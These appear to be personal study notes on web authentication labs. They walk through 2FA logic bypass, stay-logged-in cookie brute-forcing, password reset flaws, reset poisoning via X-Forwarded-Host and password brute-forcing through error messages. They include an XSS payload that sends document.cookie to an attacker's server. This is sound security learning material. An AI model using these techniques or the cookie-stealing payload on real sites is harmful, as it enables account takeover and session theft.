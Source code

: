 # **Vulnerabilities in multi-factor authentication:**

Once logged-in without providing 2fa code user might be able to access other page with only providing the passwrod.

And in some websites, the servers will use same cookie for all users, where it changes only username in that cookie according to the user. We can use this as a flawed mfa.

## **Lab: 2FA broken logic**

Here first we login using our own credentials in POST:/login (cookie : session-username)

Then we get GET:/login2 (cookie : session-username) → Here even if we remove session and only put username we will go to this page, so we can modify the username to victim username here

Then once we go to emailclient and get out mfa code and paste it here

We POST:/login2 (cookie : session-username, mfa-code:$1332$) →  Here even if we remove session and only put username we will go to this page, so we can modify the username to victim username here to go to main authenticated page.

But to go to main authenticated page we need to bruteforce mfa code 4 digit number, can do it by burp-intruder. For once request with username:victim, and proper mfacode you’ll get 302 status. From that response fetch the proper session.

And in website while loggin in your main page with your credential, just change the session cookie and reload the page. BOommm!!!

# Vulnerabilities in other mechanisms:

Some websites put this robust mechanisms only in login/signup page, but not in password reset page.

**Keeping users logged in →** Here some websites generate temporary cookie session to store permanently to keep the user logged in even after closing the browser. That temporary cookie should be random, but misconfigured-websites will generate this cookie based on the username-timestamp-password.  If attacker understands the formula of this in his own account, he can generate the cookie for his victim’s account.

## **Lab: Brute-forcing a stay-logged-in cookie:**

Here when we check with our login credentials, we logged in and clicked stay-logged in option.

Then we intercepted our request in burp, there is an additional cookie → set-session cookie: while decoding it in base64 it gives username:salt-hash , while cracking that hash in crackstation MD5 → it gives exact password. 

So this cookie can be bruteforced

After login using our credentials, we will receive response GET:/myaccount page → here remove 

cookie : set-logged-session=somevalue1; session=somevalue2;

pass this to intruder by cookie : set-logged-session=$somevalue1$; session= (as session will be setted by itself)

In intruder paste password in payloads and apply rules as per the encrypted formula. And start the attack

## XSS attack in common webpages of a web-app to fetch cookie

Attacker and victim, share same webpage with xss vulnerability. Each user have separate server to view their log. Attacker can post in xss comments attack like <script>

```bash
<script>document.location="attacker's server ip"+document.cookie</script>
```

When victim go through this attack, his cookie will be stored in attacker’s server.


### **Lab: Password reset broken logic**

Can login with known credentials

Then give password reset - in your account, you’ll get email. 

In that email update new and confirm password and send it to burp intruder.

Websites might have temp-password-code in the previous request, and in this request.

And also send temp-password-code as parameter, some misconfigured servers only check the given temp-password-code and parameter is same, but not they contain original valid codes.

Can use this and change the code, and provide victim username and desired password.

### **Lab: Password reset poisoning via middleware**

If the url for password reset is generating dynamically, this is also vulnerable. As some attacker can steal the victim-specific url and change their password .

lab:

Can login with known credentials

Then give password reset - in your account, you’ll get email.  → In this request, origin id will be sent, and it’ll be victim’s account id. But here we can add X-Forwarded-Host and given our exploit server’s id

Then link will go to victim, but once he clicks that link → cookie along with next request will come to attacker’s server which is passed as X-Forwarded-Host


## **Lab: Password brute-force via password change**

while password resetting in current ac → username, current pw, new password1, confirm password1 will go as request.

If new password and confirm password are different and current pw is correct - “New passwords dont match” error will occur

IF new password and confirm password are different and current pw is incorrect - “Current password is incorrect” error will occur, by this we can brute force current pw
